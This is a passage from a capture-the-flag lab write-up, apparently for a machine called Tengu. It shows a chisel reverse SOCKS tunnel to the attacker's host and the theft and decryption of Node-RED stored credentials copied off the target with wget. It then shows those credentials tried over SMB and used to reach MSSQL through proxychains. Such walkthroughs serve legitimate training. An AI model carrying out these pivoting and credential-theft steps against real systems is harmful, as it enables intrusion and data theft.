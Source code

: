 ```bash
# on local machine
chisel server -p 9999 --reverse
# on target machine
./chisel client 10.8.2.163:9999 R:socks &
```
Before pivoting, let's try to find creds on the machine :

```bash
nodered_svc@nodered:~/.node-red$ pwd
/home/nodered_svc/.node-red

nodered_svc@nodered:~/.node-red$ cat flows_cred.json
{
    "$": "7f5ab122acc2c24df1250a302916c1a6QT2eBZTys+V0xdb7c6VbXMXw2wbn/Q3r/ZcthJlrvm3XLJ8lSxiq+FAWF0l3Bg9zMaNgsELXPXfbKbJPxtjkD9ju+WJrZBRq/O40hpJzWoKASeD+w2o="
}    
```
I found this on goolge : [https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

So let's get the .node-red directory on our local machine

```bash
# on target machine
python3 -m http.server
# on local machine 
wget -m http://10.10.208.103:8000/.node-red

# Now run the script 
./toto.sh .node-red

{"d237b4c16a396b9e":{"username":"nodered_connector","password":"REDACTED"}}
```
Nice !!

We can try creds everywhere :

```bash
proxychains -q cme smb 10.10.208.101 -u 'nodered_connector' -p 'REDACTED'

SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         10.10.208.101   445    DC               [-] tengu.vl\nodered_connector:REDACTED STATUS_LOGON_FAILURE

# But there is a mssql on the 2nd machine

proxychains -q python3 mssqlclient.py -dc-ip 10.10.208.101 -target-ip 10.10.208.102 tengu.vl/'nodered_connector':'REDACTED'@'10.10.208.101'
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'Dev'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (nodered_connector  nodered_connector@Dev)>
```
Let's enumerate :
